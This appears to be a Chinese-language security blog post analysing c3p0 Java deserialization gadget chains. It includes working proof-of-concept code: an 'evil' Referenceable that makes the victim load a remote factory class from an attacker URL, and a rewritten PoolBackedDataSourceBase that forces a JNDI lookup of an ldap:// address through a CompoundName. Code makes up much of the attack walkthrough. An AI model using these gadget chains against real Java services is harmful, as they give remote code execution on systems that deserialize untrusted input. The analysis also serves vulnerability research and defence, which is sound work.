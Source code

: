 复习一下c3p0的反序列化打法，网上公开的大概就三种：
* 原生反序列化，加载Reference指定的类工厂的字节码，需要出网
* 配合json反序列化，有两个可以利用的setter
	* 一个打二次反序列化
	* 一个打JNDI

这里啰嗦地说一下原生反序列化的打法

`PoolBackedDataSourceBase#readObject`

![image-20240308231523639](./../.gitbook/assets/image-20240308231523639.png)

如果读取的对象是`IndirectlySerialized`的实例，调用`getObject`来恢复连接池数据源`connectionPoolDataSource`这个属性。
顾名思义，`IndirectlySerialized`是间接序列化，这是一个接口，我们看它的实现子类`ReferenceSerialized#getObject`

![image-20240308231500846](./../.gitbook/assets/image-20240308231500846.png)

![image-20240308231450415](./../.gitbook/assets/image-20240308231450415.png)

`referenceToObject`通过获取引用(`Reference`)中指定的工厂类地址(`fClassLocation`)，构造一个`URLClassLoader`，再去加载工厂类(`fClassName`)。这个引用作为`ReferenceSerialized`对象的属性，我们是可以控制的。

再看一下这个`IndirectlySerialized`是怎么写进去序列化流的
`PoolBackedDataSourceBase#writeObject`
![image-20240308231429409](./../.gitbook/assets/image-20240308231429409.png)

首先尝试序列化连接池数据源`connectionPoolDataSource`
若它不可被序列化，经过`Indirector`处理后再进行序列化，这是一个接口类，我们看它的实现子类`ReferenceIndirector`
下面看一下它是怎么处理这个不可被序列化的对象的，其实看到这里也能猜到，顾名思义它会包装一个引用(`Reference`)

![image-20240308231413980](./../.gitbook/assets/image-20240308231413980.png)

这里要求这个对象是可被引用的（`Referenceable`），获取它的引用后封装到`ReferenceSerialized`中，也就是上文反序列化中提到的类。
可以构造如下POC：
```java
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class Test {
    public static void main(String[] args) throws Exception {
        PoolBackedDataSourceBase base = new PoolBackedDataSourceBase(false);
        Class clazz = Class.forName("com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase");
        Field cp = clazz.getDeclaredField("connectionPoolDataSource");
        cp.setAccessible(true);
        cp.set(base, new evil());

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(base);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();
    }

    public static class evil implements ConnectionPoolDataSource, Referenceable{

        public Reference getReference() throws NamingException {
            return new Reference("calc", "calc", "http://127.0.0.1:9999/");
        }

        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        public void setLogWriter(PrintWriter out) throws SQLException {

        }

        public void setLoginTimeout(int seconds) throws SQLException {

        }

        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }
}
```
`evil`不能被反序列化，会经过`ReferenceIndirector`处理，拿到它的引用放入`ReferenceSerialized`，反序列化时会提取引用的工厂类地址，去远程加载工厂类。

上面反序列化的过程有一行特别醒目的代码
`ReferenceSerialized#getObject`
```java
if ( contextName != null )
nameContext = (Context) initialContext.lookup( contextName );
```
熟悉的JNDI sink，但之前传入`lookup`的都是字符串，这里要求是个`Name`接口类。对比一下，其实就是要让`Name.get(0)`返回那串神奇的URL`ldap://xxx/`或`rmi://xxx/`

![image-20240308231350806](./../.gitbook/assets/image-20240308231350806.png)

翻了一遍Name的实现类，挑了一个好用的`javax.naming.CompoundName`
其他实现类可能序列化和反序列化的时候会麻烦的，感兴趣的可以尝试。
主要关注下面几个方法

![image-20240308231321375](./../.gitbook/assets/image-20240308231321375.png)

![image-20240308231335224](./../.gitbook/assets/image-20240308231335224.png)

`impl`和`mySyntax`都是transient，所以序列化和反序列化时肯定有另外的处理。

![image-20240308231304347](./../.gitbook/assets/image-20240308231304347.png)

大概就是遍历了`impl`的`components`属性（这是一个Vector），每个都写入序列化流。

![image-20240308231241230](./../.gitbook/assets/image-20240308231241230.png)

反序列化的时候，多次调用`readObject`再add进`impl`
大概知道了这个逻辑后我们简单构造一下
```java
CompoundName name = new CompoundName("ldap://127.0.0.1:8099/aaa", new Properties());
new InitialContext().lookup(name);
```
ok成功触发。
接下来的问题时，这个`contextName`属性我们在反序列化时是控制不了的
![image-20240308231216847](./../.gitbook/assets/image-20240308231216847.png)

默认为null
有很多解决方法，最简单就是调试的时候直接改掉这个值为我们构造的`CompoundName`
复杂一点的就是用javassist修改`ReferenceIndirector`这个类的无参构造函数，在里面对`contextName`属性进行赋值。
考虑到`writeObject`还得触发`NotSerializableException`，这里采取一个折中的方法，干脆直接本地重写`PoolBackedDataSourceBase`这个类，由上面的流程可知序列化本质就写入了一个`ReferenceSerialized`对象。
```java
package com.mchange.v2.c3p0.impl;

import com.mchange.v2.ser.Indirector;
import com.mchange.v2.ser.SerializableUtils;
import com.sun.jndi.dns.DnsName;

import javax.naming.CompoundName;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import java.io.IOException;
import java.io.NotSerializableException;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Properties;

public class PoolBackedDataSourceBase extends IdentityTokenResolvable implements Referenceable, Serializable {
    private static final long serialVersionUID = 1;

    @Override
    public String getIdentityToken() {
        return null;
    }

    @Override
    public void setIdentityToken(String idToken) {

    }

    @Override
    public Reference getReference() throws NamingException {
        return null;
    }

    private void writeObject( ObjectOutputStream oos ) throws Exception
    {
        CompoundName name = new CompoundName("ldap://127.0.0.1:8099/aaa", new Properties());
        Class<?> clazz = Class.forName("com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized");
        Constructor<?> con = clazz.getDeclaredConstructors()[0];
        con.setAccessible(true);
        Object referenceSerialized = con.newInstance(null, null, name, null);
        oos.writeShort(1);  // 写入版本
        oos.writeObject(referenceSerialized);
    }
}
```
![image-20240308231154816](./../.gitbook/assets/image-20240308231154816.png)

> 其实原来那条URLClassLoader的链就挺好打了，这个打法复杂化了
>
> 大家看个乐